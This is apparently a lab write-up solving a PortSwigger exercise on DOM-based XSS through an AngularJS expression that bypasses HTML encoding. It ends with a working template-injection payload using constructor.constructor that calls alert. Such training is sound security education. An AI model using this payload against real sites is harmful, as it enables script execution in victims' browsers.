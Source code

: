 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in a [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection) expression within the search functionality.

## AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that executes an AngularJS expression and calls the `alert` function.

### ANS: {{constructor.constructor('alert(1)')()}}

{{constructor.constructor('alert(1)')()}} enter into search box
